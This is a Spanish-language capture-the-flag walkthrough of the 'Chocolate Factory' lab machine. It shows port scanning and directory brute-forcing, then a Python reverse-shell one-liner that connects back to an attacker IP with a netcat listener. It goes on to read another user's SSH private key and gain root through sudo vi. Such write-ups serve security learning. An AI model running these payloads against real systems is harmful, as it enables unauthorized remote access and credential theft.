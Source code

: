 ```yaml
---
description: // Tutorial //
---
```


# Chocolate Factory

<figure><img src="../../../.gitbook/assets/image (24).png" alt="" width="375"><figcaption></figcaption></figure>

Identificamos los puertos abiertos de la maquina victima

```
nmap IP -Pn -v -n --min-rate 3000
```

<figure><img src="../../../.gitbook/assets/image (27).png" alt="" width="332"><figcaption></figcaption></figure>

Hacemos una fuerza bruta de los directorios y ficheros del dominio y nos encontramos con un login index.html y una pagina para donde hay un input para ejecutar comandos home.php, vamos a ir a esta ultima:&#x20;

```
gobuster dir -u http://IP:80/ -w DICTIONARY -x .php,.txt,.html
```

<figure><img src="../../../.gitbook/assets/image (26).png" alt="" width="563"><figcaption></figcaption></figure>

Subimos comando para una revershell con python y nos ponemos en escucha por el puerto configurado en nuestra maquina atacante&#x20;

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP-MAQUINA",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```
nc -lvp 4444
```

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

A continuacion, abrimos una shell interactiva

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
^Z
stty raw -echo; fg
export TERM=xterm
```

Dentro de la carpeta /var/www/html llama la atencion el fichero key\_rev\_key, si filtramos por string el fichero podemos observar la primea key

<figure><img src="../../../.gitbook/assets/image (29).png" alt="" width="313"><figcaption></figcaption></figure>

Navegando por los directorios nos encontramos con un fichero donde se encuntra la clave publica y privada de ssh del usuario charlie&#x20;

```
cat /home/charlie/teleport
cat /home/charlie/teleport.pub
```

Ahora que tenemos el usuario y la clave privada accedemos a traves de ssh al usuario charlie&#x20;

```
chmod 600 id_rsa 
ssh -i id_rsa charlie@IP_victima
```

Accedemos a la flag de usuario

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

Podemos ver la password de charlie en el fichero validate.php

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

### Escalada de privilegios

```
Sudo -l
```

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Buscamos informacion en GTFO sobre la escalad de privilegios con vi

```
sudo vi -c ':!/bin/sh' /dev/null
```

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Introducimos la flag que nos encontramos en el script de pyhton para sacar la flag de root

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

